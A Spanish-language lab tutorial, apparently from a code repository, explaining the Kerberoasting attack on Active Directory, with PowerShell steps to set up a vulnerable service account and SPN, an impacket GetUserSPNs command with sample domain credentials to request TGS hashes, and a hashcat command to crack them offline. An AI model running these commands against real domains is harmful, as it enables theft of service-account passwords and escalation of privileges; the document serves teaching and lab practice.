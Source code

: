 # Kerberoasting

# ¿Cómo surge un ataque Kerberoating?

---

En los entornos de Active Directory tenemos multiples objetos usuarios, grupos, etc.. Exiten entre los usuarios cuentas que se asocian a servicios, algunas como krbtgt vienen por defecto cuando instalamos Active Directory. Estas son cuentas de usuarios como cualquier otra con la peculiaridad de que están asociadas a un **SPN** (**Service Principal Name**) y no son usadas por personas para acceder al sistema sino que el mismo sistema las utiliza internamente para gestionar servicios.

Ahora bien ¿Qué es un ataque Kerberoasting y qué tiene que ver con esto que les he explicado?, un ataque Kerberoasting es un tipo de técnica que abusa de la funcionadidad de Kerberos para capturar el **Ticket Granting Service** **(TGS)** y crackearlo de manera offline, recordando este ticket está cifrado con la contraseña del servicio que se solicita, es decir, la contraseña de la cuenta que gestiona ese servicio.

El ataque se lleva a cabo durante el envío del `KRB_TGS_REP` que va desde el KDC al cliente.

![Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

> **Tomemos en cuenta lo siguiente:**

- Las cuentas destinadas para estos servicios suelen tener contraseñas débiles al no ser accedidas constantemente por algún usuario, y para recordar con facilidad se suele evitar el uso de contraseñas muy robustas, por ende son fáciles de crackear.
- Estas cuentas suelen ser administradores para poder ejecutar dichos servicios y tareas administrativas.
> 

Viendolo así, podemos darnos cuenta de que es un ataque sencillo y potente a la vez, con la condición de que **debemos tener previo acceso a una cuenta de usuario del dominio.**

# Preparación de entorno

---

Primero vamos a crear una cuenta de usuario que será la encargada gestionar el servicio. 

- **Por medio al Powershell.**

```powershell
New-ADUser -Name "NOMBRE COMPLETO DE LA PERSONA" -GivenName "NOMBRE DE LA PERSONA" -SamAccountName "NOMBRE DE CUENTA", -UserPrincipalName "NOMBRE_DE_CUENTA@DOMINO" -Description "DESCRIPCION OPCIONAL" -AccountPassword(Get-Host -AsSecureString "Inserte la contraseña") -Enable $true
```

![Untitled](images/26bf7301-3d1e-466c-a85f-c4ed1225ef16.png)

En caso de querer borrar la cuenta puedes usar.

```powershell
Remove-ADUser -Identity "NOMBRE COMPLETO DE LA PERSONA"
```

- **Por medio a interfaz gráfica.**

Nos dirigimos a **Administrador del servidor > Herramientas > Usuarios y equipos de Active Directory**, damos clic derecho sobre **Users**, luego a **Nuevo > Usuario**.   

![Untitled](images/1575c984-f9b7-4f76-bebc-caea943fb568.png)

Luego hacemos clic en el icono de usuario en la barra superior. 

![Untitled](images/2e874867-ee7d-4d35-bc1b-c6acdd62e74f.png)

Indicamos la información correspondiente y damos clic en siguiente.

![Untitled](images/Untitled%201.png)

Luego colocamos una contraseña, marcamos las opciones **El usuario no puede cambiar la contraseña** y **La contraseña nunca expira**. Por último, damos clic en **Siguiente**.

![Untitled](images/Untitled%202.png)

Y finalizamos.

![Untitled](images/Untitled%203.png)

Como podemos ver, el usuario se ha creado satisfactoriamente.

![Untitled](images/0d03c82d-3952-4b37-a6c3-b04bf53db8a7.png)

Luego asociaremos la cuenta a un SPN (No importa si existe un servicio en ejecución o no). El SERVICE_NAME y el SERVER_MACHINE_NAME pueden ser cualquiera pero el USER debe ser el usuario que creamos anteriormente.

```powershell
setspn -S SERVICE_NAME/SERVER_MACHINE_NAME USER
```

![Untitled](images/ce8eefab-5d82-4eec-9a8f-7cf0dafc54f1.png)

# Explotación

---

Para solicitar el ticket TGS a las cuentas que tengan un SPN asociado vamos a utilizar un módulo de impacket llamado `GetUserSPNs`, el comando es el siguiente:

```powershell
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request
```

Sustituimos **DOMAIN** por el nombre del dominio, **USER** por el nombre del usuario previamente comprometido y **PASSWORD** por la contraseña del usuario. 

```powershell
impacket-GetUserSPNs cisco.local/ketti.andrea:K4ndrea -request
```

Y cómo podemos ver hemos obtenido el hash de la contraseña de este usuario.

![Untitled](images/Untitled%204.png)

Ahora **¡¡CRACKEEMOSLO!!**

# Crackeo de las contraseñas

---

Utilizaremos hashcat para crackear hash, el módulo para este hash del tipo Kerberos es el `13100`. Sustituimos HASH_FILE por la ruta de nuestro archivo hash y el DICTIONARY por la ruta del diccionario que vamos a usar para crackear el hash.

```bash
hashcat -a 0 -m 13100 HASH_FILE DICTIONARY -O
```

![Untitled](images/Untitled%205.png)
